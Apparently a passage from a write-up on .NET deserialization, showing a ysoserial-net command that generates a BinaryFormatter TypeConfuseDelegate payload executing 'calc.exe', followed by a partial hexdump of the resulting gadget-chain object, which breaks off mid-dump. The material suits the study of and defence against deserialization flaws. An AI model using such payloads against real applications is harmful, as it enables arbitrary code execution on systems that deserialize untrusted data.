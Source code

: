 
A valid payload for the example deserializer can be generated via the following command:

```
$ ysoserial-net -f BinaryFormatter -g TypeConfuseDelegate -o raw -c calc.exe > desert.ser
```

The following object would be created:

```
$ hexdump.exe -C desert.ser
00000000  00 01 00 00 00 ff ff ff  ff 01 00 00 00 00 00 00  |................|
00000010  00 0c 02 00 00 00 49 53  79 73 74 65 6d 2c 20 56  |......ISystem, V|
00000020  65 72 73 69 6f 6e 3d 34  2e 30 2e 30 2e 30 2c 20  |ersion=4.0.0.0, |
00000030  43 75 6c 74 75 72 65 3d  6e 65 75 74 72 61 6c 2c  |Culture=neutral,|
00000040  20 50 75 62 6c 69 63 4b  65 79 54 6f 6b 65 6e 3d  | PublicKeyToken=|
00000050  62 37 37 61 35 63 35 36  31 39 33 34 65 30 38 39  |b77a5c561934e089|
00000060  05 01 00 00 00 84 01 53  79 73 74 65 6d 2e 43 6f  |.......System.Co|
00000070  6c 6c 65 63 74 69 6f 6e  73 2e 47 65 6e 65 72 69  |llections.Generi|
00000080  63 2e 53 6f 72 74 65 64  53 65 74 60 31 5b 5b 53  |c.SortedSet`1[[S|
00000090  79 73 74 65 6d 2e 53 74  72 69 6e 67 2c 20 6d 73  |ystem.String, ms|
000000a0  63 6f 72 6c 69 62 2c 20  56 65 72 73 69 6f 6e 3d  |corlib, Version=|
000000b0  34 2e 30 2e 30 2e 30 2c  20 43 75 6c 74 75 72 65  |4.0.0.0, Culture|
000000c0  3d 6e 65 75 74 72 61 6c  2c 20 50 75 62 6c 69 63  |=neutral, Public|
000000d0  4b 65 79 54 6f 6b 65 6e  3d 62 37 37 61 35 63 35  |KeyToken=b77a5c5|
000000e0  36 31 39 33 34 65 30 38  39 5d 5d 04 00 00 00 05  |61934e089]].....|
000000f0  43 6f 75 6e 74 08 43 6f  6d 70 61 72 65 72 07 56  |Count.Comparer.V|
00000100  65 72 73 69 6f 6e 05 49  74 65 6d 73 00 03 00 06  |ersion.Items....|
00000110  08 8d 01 53 79 73 74 65  6d 2e 43 6f 6c 6c 65 63  |...System.Collec|
00000120  74 69 6f 6e 73 2e 47 65  6e 65 72 69 63 2e 43 6f  |tions.Generic.Co|
00000130  6d 70 61 72 69 73 6f 6e  43 6f 6d 70 61 72 65 72  |mparisonComparer|
00000140  60 31 5b 5b 53 79 73 74  65 6d 2e 53 74 72 69 6e  |`1[[System.Strin|
00000150  67 2c 20 6d 73 63 6f 72  6c 69 62 2c 20 56 65 72  |g, mscorlib, Ver|
00000160  73 69 6f 6e 3d 34 2e 30  2e 30 2e 30 2c 20 43 75  |sion=4.0.0.0, Cu|
00000170  6c 74 75 72 65 3d 6e 65  75 74 72 61 6c 2c 20 50  |lture=neutral, P|
00000180  75 62 6c 69 63 4b 65 79  54 6f 6b 65 6e 3d 62 37  |ublicKeyToken=b7|
00000190  37 61 35 63 35 36 31 39  33 34 65 30 38 39 5d 5d  |7a5c561934e089]]|
000001a0  08 02 00 00 00 02 00 00  00 09 03 00 00 00 02 00  |................|
000001b0  00 00 09 04 00 00 00 04  03 00 00 00 8d 01 53 79  |..............Sy|
000001c0  73 74 65 6d 2e 43 6f 6c  6c 65 63 74 69 6f 6e 73  |stem.Collections|
000001d0  2e 47 65 6e 65 72 69 63  2e 43 6f 6d 70 61 72 69  |.Generic.Compari|
000001e0  73 6f 6e 43 6f 6d 70 61  72 65 72 60 31 5b 5b 53  |sonComparer`1[[S|
000001f0  79 73 74 65 6d 2e 53 74  72 69 6e 67 2c 20 6d 73  |ystem.String, ms|
00000200  63 6f 72 6c 69 62 2c 20  56 65 72 73 69 6f 6e 3d  |corlib, Version=|
00000210  34 2e 30 2e 30 2e 30 2c  20 43 75 6c 74 75 72 65  |4.0.0.0, Culture|
00000220  3d 6e 65 75 74 72 61 6c  2c 20 50 75 62 6c 69 63  |=neutral, Public|
00000230  4b 65 79 54 6f 6b 65 6e  3d 62 37 37 61 35 63 35  |KeyToken=b77a5c5|
00000240  36 31 39 33 34 65 30 38  39 5d 5d 01 00 00 00 0b  |61934e089]].....|
00000250  5f 63 6f 6d 70 61 72 69  73 6f 6e 03 22 53 79 73  |_comparison."Sys|
00000260  74 65 6d 2e 44 65 6c 65  67 61 74 65 53 65 72 69  |tem.DelegateSeri|
00000270  61 6c 69 7a 61 74 69 6f  6e 48 6f 6c 64 65 72 09  |alizationHolder.|
00000280  05 00 00 00 11 04 00 00  00 02 00 00 00 06 06 00  |................|
00000290  00 00 0b 2f 63 20 63 61  6c 63 2e 65 78 65 06 07  |.../c calc.exe..|
000002a0  00 00 00 03 63 6d 64 04  05 00 00 00 22 53 79 73  |....cmd....."Sys|
000002b0  74 65 6d 2e 44 65 6c 65  67 61 74 65 53 65 72 69  |tem.DelegateSeri|
000002c0  61 6c 69 7a 61 74 69 6f  6e 48 6f 6c 64 65 72 03  |alizationHolder.|
000002d0  00 00 00 08 44 65 6c 65  67 61 74 65 07 6d 65 74  |....Delegate.met|
000002e0  68 6f 64 30 07 6d 65 74  68 6f 64 31 03 03 03 30  |hod0.method1...0|
000002f0  53 79 73 74 65 6d 2e 44  65 6c 65 67 61 74 65 53  |System.DelegateS|
00000300  65 72 69 61 6c 69 7a 61  74 69 6f 6e 48 6f 6c 64  |erializationHold|
00000310  65 72 2b 44 65 6c 65 67  61 74 65 45 6e 74 72 79  |er+DelegateEntry|
00000320  2f 53 79 73 74 65 6d 2e  52 65 66 6c 65 63 74 69  |/System.Reflecti|
00000330  6f 6e 2e 4d 65 6d 62 65  72 49 6e 66 6f 53 65 72  |on.MemberInfoSer|
00000340  69 61 6c 69 7a 61 74 69  6f 6e 48 6f 6c 64 65 72  |ializationHolder|
00000350  2f 53 79 73 74 65 6d 2e  52 65 66 6c 65 63 74 69  |/System.Reflecti|
00000360  6f 6e 2e 4d 65 6d 62 65  72 49 6e 66 6f 53 65 72  |on.MemberInfoSer|
```
